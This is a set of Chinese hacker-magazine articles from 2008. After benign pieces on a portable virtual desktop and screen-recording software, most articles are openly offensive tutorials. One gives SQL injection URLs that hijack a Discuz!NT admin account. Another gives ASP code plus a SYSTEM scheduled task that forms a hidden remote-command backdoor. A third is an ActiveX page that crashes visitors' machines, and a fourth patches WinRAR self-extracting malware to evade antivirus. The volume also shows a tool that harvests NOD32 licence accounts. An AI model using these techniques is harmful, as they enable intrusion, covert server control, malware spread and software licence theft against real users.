怎么使用 Prayaya V3 呢？点击“所有”就看到了 Prayaya V3默认安装的程序，有 IE、Outlook Express 等，在 Prayaya V3中打开的程序窗口都有一条红色的细线框着，图 4 就是本机的 IE和 Prayaya V3 中 IE 的对比图。在 Prayaya V3 中用 IE 上网是可以保存网址的，同时还能保存 cookie 和历史记录，这样我们就可以不用登录而直接进入论坛了。


大家是不是感觉到默认提供的程序有点少呢？别着急，下面我们就向 Prayaya V3 中安装软件，对于不需要安装的绿色软件，直接把程序目录复制到 X:\prayayav3\Software\Program Files 下就可以了（其中 X 代表你安装 Prayaya V3 的 U 盘的盘符），然后在 Prayaya V3 主界面右边的程序区点右键，选择“插入”就可以打开新建程序的窗口，在描述中输入你想给软件起的名字，在“目标”中通过“浏览”按钮找到刚才复制进去的可执行文件，“工作在 V3 虚拟环境”是默认选中的，不用管它，直接点击保存就可以了，如图 5。这里我以冰刃 IceSword 1.22 中文版为例，保存后冰刃就已经添加到 Prayaya V3 的程序中了，并且可以正常使用，如图 6。


对于需要安装的程序，打开www.prayaya.com.cn/download/就可以能看到能安装到Prayaya V3的软件列表了，有“互联网”、“安全防卫”、“Web浏览器”等大类，我先下载一个QQ，选择保存到桌面，下载完后却发现桌面上什么也没有，仔细一看才发现原来是保存到了H:\PrayayaV3\Software\Documents and Settings\User\Desktop目录下（H是我安装Prayaya V3的U盘的盘符)，也就是保存到了Prayaya V3的虚拟桌面下，通过Prayaya V3左下角的“浏览”按钮找到刚才下载的QQ2008的安装包，点击右键，选择“打开”就开始安装了，如图7。安装完成后使用一切正常，如图8。


以后我的QQ聊天记录就可以直接保存到Prayaya V3中了，大家也可以使用上面的安装方法把www.prayaya.com.cn/download列出的任何软件都安装到你的Prayaya V3中。软件多了，我们还可以给它们分分组，在软件的左边空白区点击右键，然后选择“插入”，在这里新建分组，比如我就新建了一个“黑客X档案”的分组，如图9。


好了，Prayaya V3就简单的介绍到这儿，其它好玩有用的功能就留给大家慢慢去发现吧。Prayaya V3作为一个虚拟的系统，它可以让你在任何电脑上都能使用自己的程序并保存数据，有了它我们在任何电脑上都可以像在自己的电脑上一样保存聊天记录、保存IE设置、保存上网cookie了。只需要一个U盘，就相当于有了一台专属自己的电脑，赶快来试试吧。

（本文所涉及到的Prayaya V3已收录到光盘中）

### 菜鸟轻轻松松做动画

BaseNet

很多刚入门的小菜都希望能够制作出自己的黑客动画，本文我就对网上常用的动画制作工具做了一下整理，大家可以根据需要选择自己所喜欢的。

#### 一、古董级—屏幕录像专家（简称pmlxzj）

网上有很多黑客动画都是使用该工具制作出来的，它的使用非常简单，功能也很强大，是制作各种屏幕录像和软件教学动画的首选软件。我们使用它可以轻松的将屏幕上的软件操作过程、网络教学课件、网络电视、网络电影、聊天视频等录制成FLASH动画、ASF动画、AVI动画或者自播放的EXE动画（生成的EXE文件压缩比非常高、生成的文件较小)，另外该软件还具有长时间录像并保证声音完全同步的能力。它有很多的版本，其中的网络版可以对局域网内的电脑进行实时的屏幕画面监控，总之，pmlxzj是制作动画的一个非常经典的工具。

我们来看它的具体使用方法，运行该软件后的界面如图1所示，启动软件后（这时缺省的情况应该是“直接录制生成”处于选中状态，“EXE”处于选中状态）按F2开始录制，过一会儿后按F2停止，然后到软件左边的列表中可以找到录制的EXE文件了，双击就可以进行播放了。


如果想录制生成AVI文件，可以按如下操作进行：启动软件后，在录制模式下（这时缺省的情况应该是“直接录制生成”处于选中状态，“EXE”处于选中状态）选中“AVI”，然后按F2开始，录制一会儿后按F2停止，然后到左边的列表中可以找到录制的AVI文件了，双击就可以播放了，整个制作过程是不是非常简单啊！

我们在图1中会看到最下面的两种模式——“录像模式”和“生成模式”，这两种模式是该软件制作录像动画的两种不同方式，如果我们勾选了“直接录制生成”，就使用的是“录像模式”，该模式下可以直接录制生成屏幕动画，使用该方式所生成的文件占用硬盘空间比较小，可以选择文件格式为exe或者avi。如果我们不勾选“直接录制生成”，软件会首先生成.lx文件，然后我们再选择“生成模式”，软件就会根据我们在“生成模式”中所做的设定来生成动画，走的是先录制后生成的套路。开始录制时除了要在该软件中设置相关录制属性外，一个非常重要的设置就是设置显示的颜色值和声音。一般情况下要将颜色值设成16位，在桌面上点右键选择“属性”，单击“设置”选项，将


“颜色质量”设置为16位就可以了，如图2。

录制声音要注意将话筒连接好，并使用Windows附带的“录音机”程序来测试是否正常。在“开始”——“程序”——“附件”——“娱乐”中选择“录音机”，我们可以先录制一段声音进行测试，如果无法录制，可以在“开始”——“运行”栏中输入control来打开控制面板。选择“声音和音频设备”，选择“语音”选项，单击“测试硬件”来进行硬件的检测，测试完毕后再进行录音测试。屏幕和声音设置完成后，我们需要对软件的属性进行一些设置，运行软件，单击“录像模式”，在“基本设置”中设置文件名、文件保存路径，如果使用默认的“直接录制生成”动画文件，我们可以根据需要设置生成的文件为exe或者avi，如果要对生成动画的播放进行设置，可以单击“exe”或者“avi”后面的“设置”按钮进行设置，如图3。

对于“录制目标”和“声音”的设置使用默认的就可以了，然后选择“快捷键”，在这里我们可以根据需要设置录制、停止录制的快捷键，以方便我们进行动画制作。如果我们使用先录制后生成的模式，就必须在“录像模式”中将“直接录制生成”的勾去掉，然后选择录制或者使用快捷键录制，录制后会生成一个.lx的文件，然后我们单击“生成模式”，在这里要注意如果你录制了声音，就不要更改回放频率了，因为回放频率就是动画播放时的频率，一般软件缺省的将其和录制频率设置成同一个值，这样也可以保障同时录制的声音的同步。如果修改了回放频率，那么一般声音就需要重新录制了。单击“试放”按钮可以检测我们录制的动画效果，如果觉得没问题就可以点击“生成”，然后选择保存路径，确定后我们的动画就制作完毕了！

#### 二、麻雀虽小五脏俱全——S-Demo

S-Demo是一个经常被破解者用来制作破解动画过程的软件，它可以记录你的屏幕上的任何动作及鼠标的移动过程，同时使用了较高的压缩率，当然压缩率是可以选择的，在正常的操作情况下，每分钟的生成的文件大小在200K左右（800x600x32bits）。S-Demo生成的文件可用软件附带的S-Player播放，也可以生成可执行文件来脱离S-Player进行播放。该软件最大的特点就是看上去小巧玲珑，非常可爱！

软件支持三种模式（全屏、拉伸、窗口）的播放，建议在全屏模式下查看动画，运行后的界面如图4所示，我们直接单击“Record”就会弹出一个对话框，如图5。在这里我们先选择动画要保存的路径，然后可以根据自己的需要填写上制作人、动画名称等信息，它主要的特点是可以对动画进行密码设置，勾选“口令保护”，输入密码后单击“开始”，软件就开始记录我们的操作了。录制完毕后，我们可以使用软件自带的S-Player进行播放，也可以选择“Export 'exe' File”，将录像文件导出为exe文件，从而脱离S-Player播放器。单击“option”，可以对软件进行属性设置，比如“电影品质”、“音频”、“格式”等等。虽然S-Demo可以录制声音，但是语音与动画的同步性能不是很好，因此下面我再向大家推荐FlashBack！


#### 三、黑客动画吧——BB FlashBack

FlashBack是一个屏幕录像工具，能够快速轻松的创建清晰的屏幕图像，可以将抓屏结果保存为flash动画、EXE文件或avi文件。运行程序后会首先提示用户进行注册，在程序的解压缩目录中汉化作者已经提供了其注册码。注册完毕后就会进入如图6所示的界面，在“文件夹”中设置录像文件保存的路径，在“文件名”中填入动画名称，可以根据需要决定录制的范围，建议使用默认的“整个屏幕”，如果同时要进行声音录制，可以单击“声音”，选择“录音”，根据需要设置“麦克风音量”和“声音格式”。

该软件和pmlxzj一样也提供了热键设置，我们单击“热键”选项，比如要使用“ctrl+s”进行开始记录，我们就可以在“记录”后面的空格中按键盘上的“ctrl”键，软件就会自动显示“ctrl+”的符号，在后面再输入s就可以了，以相同的方法我们将“停止”设置为“ctrl+e”，设置完毕后，我们按“ctrl+s”软件就会记录我们的操作，录制完毕后按“ctrl+e”就会结束录制了，这时软件会自动弹出“BB FlashBack player”，在弹出的窗口中我们可以选择“文件”，根据个人爱好将录像输出为exe、avi、wmv等格式的动画，如图7。

在“BB FlashBack player”中，还可以实现对录像和声音的强大处理，与pmlxzj相比更为强大、更为方便，而且注册后也不会出现在pmlxzj6.0版本中类似的未注册字样，有时候我们可能制作的动画不想录制声音而希望添加一些音乐，使用这个工具就可以轻松实现，单击“声音”菜单，选择“insert sound”，在弹出的窗口中选择要插入的音乐就可以了。如果录像时间比较长，可以勾选“auto repeat”实现音乐的自动循环播放。个人感觉，这款录像软件比屏幕录像专家和S-Demo都要好用。

#### 四、黑客初级入门教程制作工具—Flash Cam

相信Flash Cam是很多人所期待的FLASH影像捕捉工具，它是一个非常好的演示软件，能把屏幕的操作行动录为flash文件，而且我们还可以编辑或删除录下来的图片。它可以制作出相当棒的SWF格式的教学影片，可以将捕捉的影像单独帧连贯


起来成为一个 SWF 文件，还可以插入标题文字、录制旁白声音、自订鼠标轨迹等，使用该工具录制的动画播放速度比较慢，可却是制作黑客初级入门教程的必备工具。

软件运行后的界面如图 8 所示，我们单击“文件”菜单中的“新建”按钮，程序就会弹出“录制电影”的向导，如图 9，在这里主要是设置屏幕捕获的大小，默认的是系统当前的分辨率，单击“下一步”，软件就开始以帧的形式捕获当前屏幕的操作了。要想插入字幕的话，首先选择需要插入字幕的帧，然后单击“插入”菜单，选择“字幕”，双击“捕获文本”后面的编辑框，输入文字，如图 10，比如“Hacker like hacking”，确定后就会在帧界面上出现一个浮云状的字幕，单击选定字幕，将其拖动到需要字幕的位置就可以了。要想插入声音的话，我们首先选择要插入声音的帧，然后单击“帧”菜单，选择“音频”，在弹出的窗口中我们可以为帧选择“打开”一个已经存在的音频文件，也可以录制一个声音，如果要更换声音文件，可以单击“清除”，然后选择你喜欢的声音就可以了。对每个帧设置完毕后，可以单击“选项”菜单选择“播放器”，此时软件就会自动将每个帧连接成为一个 flash 文件，这样一个录制过程就完毕了。


专业的演示类软件，是大师级人物制作黑客入门教程的宝马良驹，缺点就是制作的画面与上面的工具相比不够清晰。

#### 五、最专业的——Camtasia

Camtasia 是一款专门捕捉屏幕影音的工具软件，它能在任何颜色模式下轻松的记录屏幕动作，包括影像、音效、鼠标移动的轨迹、解说声音等等，另外它还具有及时播放和编辑压缩的功能，可以对视频片段进行剪接、添加转场效果。它输出的文件格式有很多，有常用的 AVI 和 GIF 格式，还可输出为 RM、WMV 和 MOV 等格式，使用起来极其顺手。同时它还是一款视频编辑软件，可以将多种格式的图像，视频剪辑连接成电影，输出格式可以是 GIF 动画、AVI、RM、QuickTime 电影（需要 QuickTime4.0 以上）等，还可以将电影文件打包成 EXE 文件，这样就可以在没有播放器的电脑上进行播放了，同时它还附带一个功能强大的屏幕动画抓取工具，内置了一个简单的媒体播放器。应该说 Camtasia 是最专业的屏幕录像软件，很多光盘都在查看其内容前自动安装了该软件。

软件运行后的界面如图 11 所示，要录制屏幕，我们可以单击“文件”菜单，选择“录制屏幕”，在弹出的对话框中选择进行录制的范围，一般选择“整个屏幕”，单击“下一步”，根据需要选择是否“录制声音”，如果需要就勾选“录制声音”，单击“下一步”，对音频进行设置，设置完毕后单击“下一步”，单击“完成”后，在“Camtasia 录像器”中单击“捕获”菜单，选择“录制”（或者使用 F9 快捷键）按钮，软件就会开始屏幕录制了，录制完毕后我们按 F10 快捷键结束录制，录制结束后软件会提示是否进行编辑，我们单击“确定”后，就可以启动 Camtasia Studio 进行编辑了，当然录制一般的屏幕动画我们根本不需要多么高深的编辑技术，很多时候我们只需要将其导出为 exe 文件或者 avi 文件就可以了。单击刚才录制的 *.camrec 文件，选择 Camtasia Studio 中的“文件”菜单，选择“生成视频为”，在弹出的对话框中选择要导出的文件类型，如图 12。


依次点击“下一步”，最后在“输出文件”中填入文件名，在“文件夹”中选择录像文件要保存的位置，单击“完成”就可以了。

#### 六、总结

以上这五款动画制作软件，最老牌的还得是屏幕录像专家，但是 6.0 的版本经常会出现未注册的字符，有点令人不爽，S-Demo 小巧玲珑，但是在声音与动画的同步上不如屏幕录像专家，不论是声音录制还是图像录制最经典的还是 BB FlashBack，如果是职业的黑客动画制作人，建议使用 Camtasia，如果制作演讲课件则推荐使用 Flash Cam。大家可以根据不同的需求来选择不同的工具去制作动画！

（本文所涉及到的屏幕录像专家、S-Demo、BB FlashBack、Flash Cam、Camtasia 已收录到光盘中）

### 破解不出管理员密码照样进后台

txcbg

想知道小菜我平时是怎么拿 webshell 的吗？一个网站程序出现漏洞后，利用牛人公布的漏洞利用工具直接拿 webshell 是最重要的途径，使用这种方法拿的 shell 多了也就发现了一个规律：大多数漏洞利用工具都是直接暴出管理员的用户名和密码的，而密码几乎

| uid | username | nickname | password |
| --- | --- | --- | --- |
| 1 | admin | admin | a93f2eb1015d9d48bb0e1cd672585 |
| 2 | test1 |  | e10adc3949ba59abbe56e057f20f883e |
| 3 | test2 |  | e10adc3949ba59abbe56e057f20f883e |

图2

| uid | username | nickname | password | secques |
| --- | --- | --- | --- | --- |
| 1 | admin | admin | a93f2eb1015d9d48bb0e1cd672585 |  |
| 2 | test1 |  | e10adc3949ba59abbe56e057f20f883e |  |
| 3 | test2 |  | a93f2eb1015d9d48bb0e1cd672585 |  |

图3

全都是经过 MD5 加密的。要想拿 webshell，必须进后台，要进后台就要先破解出管理员的密码，而很多时候我们暴出了管理员的 MD5 值却破解不出密码，难道破解不出密码就进不了后台吗？这可不一定，也许只要我们灵活的动一下手就会有意想不到的结果哦。

很多漏洞都是注入漏洞，有的注入漏洞除了像一般的漏洞利用工具那样暴出管理员密码外，我们能做的还有很多，如果有更新数据库的权限，即使破解不出管理员的后台登录密码，我们也可以间接的进入后台，下面我就以前段时间暴出注入漏洞的 Discuz!NT 2.5 为例来具体介绍一下操作过程。关于 Discuz!NT 2.5 注入漏洞我就不多说了，出漏洞的文件是 showuser.aspx，我已经在虚拟机中搭建好了测试环境，设置的管理员密码是“dfrOOO@25!”，这个密码在 http://www.cmd5.com/ 上是破解不出来的。


我们的目标就是进入后台拿到 webshell，而面临的困难则是破解不出管理员密码的 MD5 值，而我要做的就是克服困难达到目的。其实就 Discuz!NT 2.5 注入漏洞本身来说，利用注入漏洞添加一个管理员用户就能进入后台，但我是为了教大家在破解不出密码的情况下如何进入后台，所以我们以用户名 admin（论坛创建者）来登录后台（假设 admin 的密码破解不出来），新注册两个用户，我这里注册的是

| uid | username | nickname | password | secques | space |
| --- | --- | --- | --- | --- | --- |
| 1 | admin | admin | e10adc3949ba59abbe56e057f20f883e | 0 | 0 |
| 2 | test1 |  | e10adc3949ba59abbe56e057f20f883e | 0 | 0 |
| 3 | test2 |  | a93f2eb1015d9d48bb0e1cd672585 | 0 | 0 |

图4

| uid | username | nickname | password | secques | spaced | under | adminid | group |  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 1 | admin | admin | a93f2eb1015d9d48bb0e1cd672585 | 0 | 0 | 0 | 1 | 1 | 1 |
| 2 | test1 |  | e10adc3949ba59abbe56e057f20f883e | 0 | 0 | 0 | 0 | 10 | 10 |
| 3 | test2 |  | a93f2eb1015d9d48bb0e1cd672585 | 0 | 0 | 0 | 0 | 10 | 10 |

图5

test1, test2, 密码都是 123456。既然破解不出密码而且还要进入后台，我采用的是改管理员的密码，为了不破坏原论坛，进入后台办完事后还要恢复管理员的密码，为此先在浏览器地址栏输入 http://192.168.79.133/showuser.aspx?ordertype=desc;update dt_users set password=(select password from dt_users where Username='admin') where username='test2';--，回车后就可以把管理员 admin 的密码赋值给 test2 用户的密码，然后继续在浏览器里输入 http://192.168.79.133/showuser.aspx?ordertype=desc;update dt_users set password=(select password from dt_users where Username='test1') where username='admin';--，把 admin 的密码更新成用户 test1 的密码，因为 test1 的密码我们事先知道是 123456，现在使用用户名 admin 和密码 123456 已经可以成功登录后台了，如图 1。


整个的思路就是先把 admin 的密码通过注入备份到一个用户的密码中（这个用户必须是无关紧要的，最好是你新注册的一个），然后把一个你已经知道密码的用户的密码赋值给 admin，使用已知的密码进入后台，办完事后再把 admin 的密码还原回来（这个过程一定要快，最好是在 admin 用户不在线的时候进行，要不然被发现了可就不好了）。

### 基于WAP的远程控制

在写本文之前我已经研究手机控制电脑一个多月了，因为工作加学习的原因，一直没有多少进展，对于 WAP 控制方面还是七窍通了六窍，也就是一窍不通。终于在我的不懈努力下将这个简单的 WAP 控制给做了出来，一个人不敢私藏就赶快发出来了，让大家一起也新鲜新鲜。

这个 WAP 控制的原理就是使用手机向服务器提交信息，然后让服务器读取该信息进而变相的控制服务器。首先要在服务器上添加 WML 支持，MIME 类型里面增加扩展名 wml（MIME 类型 text/vnd.wap.wml），添加之后我们的服务器就会支持类似 index.wml 的网页了。具体步骤如下：

- 1. 创建个 wml 网页，手机可以利用该页面向服务器提交信息。
- 2. 创建一个 ASP 网页，用来接受手机提交的信息。

代码如下如图 1，图 2 所示，这两个页面可以使手机 WAP 输入的信息提交给服务器。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="card1" title="wap" newcontext="true">
<p>code:<input name="S10" size="18" maxlength="50" type="text" format="*M" emptyok="true"/><br/>
<anchor title="login">
<go href="jieshou.asp" method="post" sendreferer="true" accept-charset="utf-8">
<postfield name="code" value="$(S10)"/>
</go>
</anchor>
</p>
</card>
</wml>
```


```asp
<%@ Language=VBScript %>
<%Response.ContentType="text/vnd.wap.wml"
code=Request.Form("code")
filename="c:\info.bat"
Set fso=CreateObject("Scripting.FileSystemObject")
set f1=fso.CreateTextFile(filename,true)
f1.Write("@echo off & " & code & " & del %0%")
f1.Close%>
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="main">
<p>
&lt;-R..y.fktol.c--<br/>
</p>
</card>
</wml>
```


- 3. 信息的处理

从 jieshou.asp 中我们可以看出，把信息提交给了 C:\info.bat，信息输入时会覆盖以前输入的信息，我们也可以将信息提交给 txt，然后编写程序读取里面的信息，在这里我们只是简单控制，所以我想出了自己的办法。之前源代码中“f1.Write("@echo off & " & code & " & del %0%")”部分原为“f1.Write(code)”。因为之前考虑的是编写程序去读取提交的信息，现在为了使 WAP 控制的方法更简单，我使用了建立计划任务的方法，命令如下：schtasks /create /tn remote /tr "c:\info.bat" /sc minute /mo 1 /ru system /st 00:00:00 /ed 2040/08/08 创建计划任务，它的意思是以 system 用户每一分钟运行一次 c:\info.bat，从 00:00:00 开始直到 2040 年 8 月 8 日结束。因为之前更改“f1.Write(code)”为“f1.Write("@echo off & " & code & " & del %0%")”，所以我们就实现了关闭命令回显，运行命令以及运行后删除自身避免重复运行的功能，至此这个 WAP 控制就完成了。如果想让这个 WAP 控制更隐蔽一些，我们还可以进行以下修改，输入命令：

```
attrib +s +h c:\windows\tasks\remote.job
attrib +s +h c:\wwwroot\wap\index.wml (假如我的 index.wml 放在这里)
attrib +s +h c:\wwwroot\wap\jieshou.asp
attrib +s +h c:\wwwroot\wap (如果该目录本来不存在，就不用加了)
```

下面我们使用手机（手机刚停机，只能用模拟了）访问 wap.fktol.cn（假设我将 index.wml 放在了 wap.fktol.cn 下），初始界面如图 3 所示，我们来提交 net user > 1.txt，如图 4，提交后就会出现如图 5 所示的提示了。

让我们来看看运行结果，如图 6，正常运行。是不是很有意思呢？希望感兴趣的朋友可以对它进行进一步的开发和完善。


### 简单测试黑客工具中是否含有后门

丁小光

出于利益原因，很多所谓的免费版黑客工具中都含有后门，尤其以盗号工具最为典型，当新手们使用这些所谓的免费版工具时，自己不但会引“马”入室，还会被后门出卖自己的“劳动”成果。那么要如何检测自己所使用的工具中是否包含有后门呢？对于有经验的高手而言，可以使用 WSockExpert 进行网络数据抓包，可是当手头没有 WSockExpert 时那又要怎么办呢？别急，其实 Windows 系统中早已为我们准备好了一款利器——Netstat。Netstat 需要在命令提示符的环境下运行，用于显示协议统计信息和当前 TCP/IP 网络连接及端口占用信息，本文我们以“QQ 大盗 2008 国庆免杀版”为例来说明命令提示符下的后门测试。


图 1

- 1. 关闭系统中所有可能连接网络的程序（包括杀毒软件和千千静听这类的程序），然后只登录 QQ 程序，打开命令提示符，输入并执行 Netstat -an>C:\TEST\NET1.TXT 命令，将未运行木马前的网络连接状态保存在 C:\TEST\NET1.TXT 文件中，然后关闭 QQ 程序。
- 2. 运行“QQ 大盗 2008 国庆免杀版”，配置并生成木马程序，为了方便测试，我们只选择 ASP 收信方式，如图 1。
- 3. 在命令提示符中输入并执行 PING www.zifeng.com 命令，其中 www.zifeng.com 表示我们的 ASP 收信空间所在的服务器域名，可以根据实际情况自行更改，这时命令提示符中就会返回该 ASP 收信空间的 IP 地址了，地址为 220.181.5.31，如图 2。
- 4. 运行生成的 QQ 木马程序，然后重新登录 QQ，打开命令提示符，输入并执行 Netstat -an>C:\TEST\NET2.TXT 命令，将运行木马后的网络连接情况保存在 C:\TEST\NET2.TXT 文件中。
- 5. 比较 NET1.TXT 和 NET2.TXT 文件的内容，我们就会发现，在 NET2.TXT 中多出了三个网络连接 220.181.5.31，212.76.45.28 和 212.76.47.35，如图 3，220.181.5.31 是我们的 ASP 收信空间地址，而另外两个网络连接就应该是 QQ 大盗作者留下的后门了。


图 2


图 3

在使用 Netstat 进行后门测试时要注意：Netstat 并不能立即返回当前的网络连接状态，会有 3 - 5 秒的延迟，也就是说我们执行 Netstat 后看到的网络连接状态很可能是 3 秒钟以前的，不过这并不影响我们对后门的测试。记住有句古话说“伤人一千，自损八百”，这对于经常玩黑的朋友来说体会更是深刻，一着不慎，满盘皆“马”，毕竟天下没有免费的午餐。

### 利用下载软件制作隐蔽的 DOS 炸弹

爱无言

几乎每个人的电脑上都安装有下载软件吧，甚至于有的还会安装好几个呢，我总是想如果这些下载软件一旦有什么漏洞或别的问题，那我们岂不是就可以进行批量攻击了，于是我决定好好的研究一下。通过一段时间的努力，我发现借助于这些下载软件完全可以制作出一个非常隐蔽的 DOS 炸弹，也可以说是拒绝服务炸弹，这个炸弹会让安装了这些下载软件的电脑瞬间死机，相信这样一个漏洞，拿去恶作剧一把还是非常有意思的吧。

我选择了使用 QQdownload，也就是超级旋风这款下载软件来进行试验，我们的这个 DOS 炸弹是利用网页来实现 DOS 效果的，也就是说一旦有人访问了这个网页文件，那么他的电脑就会被我们 D 死，所以我们还要与下载软件的 ActiveX 控件打交道。ActiveX 控件是微软的一种嵌入技术，经常用在网页或者程序中实现某些功能。我们来看看超级旋风注册的关键控件 QQIEHelper1.dll，这个文件中唯一需要我们关心的就是 QQRightClick 类，这个类提供了超级旋风需要的所有下载函数接口，最为关键的几个函数分别是：SendUrl、SendUrl2、SendUrl3、AddCmnInfo、AddTask、AddTask2。这其中 SendUrl、SendUrl2、SendUrl3 三个接口函数我们可以用来制作循环炸弹，但是测试后我发现它会弹出窗口，不够隐蔽，因此我们只好考虑使用后面三个函数了，其中 AddCmnInfo 函数也不能使用，最后就只剩下 AddTask 和 AddTask2 这两个函数了，它们能帮助我们实现目的吗？先不管这些，让我们写一个网页文件来帮助测试一下，这个文件的代码如下：

```html
<SCRIPT language=javascript>
var QQRightClick = new ActiveXObject("QQIEHelper.QQRightClick.2");
QQRightClick.AddTask("http://127.0.0.1/test/test.exe","","");
</SCRIPT>
```

将这段代码保存为网页文件后，使用浏览器打开，竟然没

## 傻瓜黑客

2008 合订本下卷


图 1

在明白了原因后，我们在调用完 AddTask 函数后又该怎样做呢？让我们再次回过头看看 QQRighClick 类提供的那些接口函数，一个名为 SendMultiTask 的函数引起了我的注意，从字面意思看这个函数的意思是“发送多个任务”，这不就是我们需要的在添加下载任务后命令超级旋风开始下载的函数吗？再次修改我们上面的代码，在“</SCRIPT>”标签前面添加 QQRighClick.SendMultiTask(); 代码，保存文件，打开后我们终于看到浏览器弹出了下载的提示对话框，如图 1。


图 2

虽然说现在已经可以使超级旋风进行下载工作了，但是我们的目标“没有对话框而 DOS”还没有实现呢，不用担心，正如我前面所说的 AddTask 是一个预装任务的函数，那它肯定是先将这些任务预存在内存中，既然要存储，那么就要占用内存，如果我们让超级旋风一次性预存足够多的任务呢？按照分析，这将占用相当多的内存，同时 CPU 也要忙着为这些任务分配内存，进行预处理，这很有可能就会造成系统 DOS。理论归理论，让我们来看看实际测试的效果吧。调整上面的代码，给它加上一段循环语句，同时设置循环次数为足够大，再次打开这个新保存的网页，我们来看结果，如图 2。

IE 浏览器的进程 IEXPLORE.EXE 的 CPU 占用率马上狂飙到 99%，同时内存使用大小也在不断的上升，而且这时候，我们也没有看到系统出现任何提示，连下载对话框也没有出现，这样我们就成功实现了隐蔽的 DOS 炸弹效果。其实不只是超级旋风存在这个漏洞，迅雷以及 FlashGet 都有这样的问题，大家可以举一反三，自己去研究一下迅雷、FlashGet 的利用方法，编写出一个通用的 DOS 炸弹，那么效果一定比我编写的这个炸弹更加完美。

有任何反应，我郁闷了一下，然后恍然大悟，都怪自己太急于测试了，而没有仔细分析这个函数的真实目的。如果说 SendUrl 系列函数是命令超级旋风马上进行下载的函数，那么 AddTask 系列的函数就是一个预存下载命令的函数，也就是像 Windows 系统自带的计划任务一样，AddTask 函数是把下载任务先记录下来，然后再命令超级旋风进行下载工作，所以我们单纯使用 AddTask 函数而不命令超级旋风开始执行，当然无论怎样系统都是没有反应的了。

（本文所涉及到的 DOS.htm 已经收录在光盘中）


现在网上的病毒可谓是“无奇不有”，就连 WinRAR 的自解压功能都能作为病毒传播的桥梁，大家想想，有谁家的电脑上没有 WinRAR 这个软件呢（别告诉我你不知道 WinRAR 是什么）？在介绍如何制作“WinRAR 自解压补丁生成器”前，我们先来看看如何制作一个利用 WinRAR 自解压功能来传播病毒的实例，我就使用“桌面天使.EXE”作为我们的病毒文件，如图 1。

### 手把手教你制作“WinRAR 自解压补丁生成器”

ScudesertXof

选中程序，点击右键，选择添加到压缩文件，在弹出的对话框中将“压缩方式”选择为“最好”，如图 2，在右面的“压缩选项”中选择“创建自解压格式压缩文件”这一项。在“高级”选项中设置“解压路径”和“解压后运行”这两项内容，如图 3。在“模式”中选中“全部隐藏”和“覆盖所有文件”，如图 4。除此之外，我们还可以设置“文本和图标”选项中的“从文件加载自解压文件图标”，使病毒更具迷惑性。


图 1


图 2


图 3


图 4

如图 5。

制作完成的病毒和原来的正常程序是不是看上去一样呢，如图 6。但是有经验的人，对于这种程序一般都会查看它的属性，只要是出现了如图 7 所示的选项，那么就表明它是有问题的文件了。


图 5


图 6


图 7

我们使用 WinRAR 打开，看到里面的“猫腻”了吧，如图 8，图 9。但是，打了补丁的“病毒文件”是没有图 8 中“解压文件…”等字样的。

下面，我们就开始制作属于自己的“WinRAR 自解压补丁生成器”，用到的工具有 CodeFusion、C32Asm 和一点代码。

- 第一步，先使用 C32Asm 加载未修改的“病毒文件”，直接把它拖到 C32Asm 中就行了。
- 第二步，选择“十六进制模式”，然后点“确定”，按键盘上的“Ctrl+F”后，在“类型”选择“十六进制”，同时在“搜索”中输入“80 7A 01 61”，如图 10。找到后将其修改为“80 5A 01 XX”，其中 XX 代表你自己修改的数值，这里我把 XX 都改为了 22，如图 11。

依此类推，修改“52 61 72 21 1a 07”为“52 XX 72 21 1a 07”。


图 8


图 9


图 10

如果只修改这两处，那么卡巴大叔还是会查杀的。特征码我已经查出来了，是 000493F6_00000003。再把“69 74 c4 3d 7b 00 40 07 00”改为“69 74 c4 3d 7b XX XX XX XX”，卡巴就不会查杀了，这样一个 RAR 病毒就伪装好了。为了高效地修改 RAR，下面开始制作工具。我们要用到 CodeFusion，对于 CodeFusion 这款软件我就不多作介绍了，它是一个非常好的补丁工具。在使用之前，我们需要先设置一下，需要去掉“选项”中所有的对勾，如图 12。在界面中输入你想要的版本信息，如图 13、14。点击“下一步”后，再点击右上角那个绿色的“+”，在弹出的界面中依次点击“任意文件”和“确定”，如图 15。


图 12


图 13


图 14


图 15

接着点击中间的那个绿色的“+”，在弹出的界面中点击“查找及替换”，在上面的框中输入“80 7A 01 61”，下面的框中输入“80 7A 01 XX”（XX 为你改的数据），并将“方式”改为“全部替换”，如图 16。按照上述方法将“52 61 72 21 1a 07”改为“52 XX 72 21 1a 07”，将“69 74 c4 3d 7b 00 40 07 00”改为“69 74 c4 3d 7b XX XX XX XX”，点击“下一步”，保存即可。这样一个“WinRAR 自解压补丁生成器”就做好了，如图 17。


图 11


图 16


图 17

（本文所涉及到的 CodeFusion、C32Asm 已收录到光盘中）

### 不用360专版照样免费用Nod32

林中闲人（胥忠亮）

最近 Nod32 与 360 联合推出了 Nod32 360 专版，可是笔者用的系统是 Windows Server 2003，360 专版不支持服务器操作系统。怎么办，难道就不用了么？那可不是我们黑客的风格。经过我的努力，我找到了一款叫“Eset 升级账号获取器”的工具，它可以让你在很短的时间内获得大量可用的 NOD32 账号。

1. 首先来到 ESET 中国（http://www.nod32cn.com/html/145/162/）下载 Nod32，这里有三个版本：Nod32 2.7 版、Nod32 防病毒软件 3.0 版、ESET NOD32 安全套装。如果你的系统是服务器版操作系统请下载 2.7 版，XP/Vista 下载哪个版本都可以。

2. 下载并安装 Nod32，安装到自动更新这一步时，选择以后设置更新参数，如图 1。安装完成之后，打开 Eset 升级账号获取器，如图 2。


点击批量获取，如图 3。我这里得到了 13 个升级账号，为了确定账号的有效性，我们点击验证账号，在有效的账号里随便选择一个升级账号，点击一键导入并选择是，如图 4。


3. 打开你的 Nod32，选择更新病毒库，是不是可以更新了？看一下 Nod32 信息，如图 5，我的剩余天数居然为 16714884 天。当然用不同的升级账号剩余的天数会有所不同。经过本人测试，Eset 升级账号获取器得到的升级账号全部适用于上面的几个版本。还在等什么，快去试试吧！


（本文所涉及到的 Eset 升级账号获取器已收录到光盘中）

### 突破邮件群发，实现网络暴力营销

无敌小龙

